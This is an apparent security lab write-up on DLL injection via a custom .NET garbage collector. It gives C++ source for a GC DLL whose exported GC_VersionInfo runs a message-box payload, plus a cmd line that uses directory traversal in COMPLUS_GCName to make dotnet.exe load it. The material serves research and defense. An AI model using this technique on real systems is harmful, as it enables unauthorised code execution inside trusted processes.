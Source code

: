 # DLL Injection via a Custom .NET Garbage Collector

This is a quick lab to test a DLL injection technique discovered by [@am0nsec](https://twitter.com/am0nsec), which he describes in his blogpost [https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector](https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector) - go check it out!

The idea behind this technique is that a low privileged user can specify a custom Garbage Collector \(GC\), that a .NET application should use. A custom GC can be specified by setting a command shell environment variable `COMPLUS_GCName`, that points to a malicious DLL which represents a custom Garbage Collector.

{% hint style="warning" %}
Normally, specifying a custom GC requires administartor privileges, however, since path to a custom GC in `COMPLUS_GCName` is not sanitized when a custom GC is loaded, directory traversal allows **any** unprivileged user to specify a custom GC to be loaded from an arbitrary location to which they can drop their DLL.
{% endhint %}

The Gargage Collector DLL needs to export `GC_VersionInfo` method for this technique to work - this is the method that will contain our payload, that will be executed once a .NET program starts and loads our custom GC DLL.

## Execution

Let's create a DLL that represents a custom Garbage Collector. It needs to export a function `GC_VersionInfo`, which in our case executes a simple message box:

```cpp
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

struct VersionInfo
{
    UINT32 MajorVersion;
    UINT32 MinorVersion;
    UINT32 BuildVersion;
    const char* Name;

};

extern "C" __declspec(dllexport) void GC_VersionInfo(VersionInfo * info)
{
    info->BuildVersion = 0;
    info->MinorVersion = 0;
    info->BuildVersion = 0;
    MessageBoxA(NULL, "Injection", "Injection", 0);
}
```

Once the DLL is compiled, we can set the `COMPLUS_GCName` environment variable in our cmd.exe shell and point it to the compiled DLL:

```text
set COMPLUS_GCName=..\..\..\..\..\..\..\..\..\..\..\..\..\labs\GarbageCollector\GC\x64\Release\GC.dll & dotnet.exe -h
```

We can execute any .NET binary found on the system and it will load our GC.dll. In this lab, we do:

```text
dotnet.exe -h
```

Below shows that our GC.dll got injected into the dotnet.exe:

![](../../.gitbook/assets/image%20%28533%29.png)

## References

{% embed url="https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector" caption="" %}

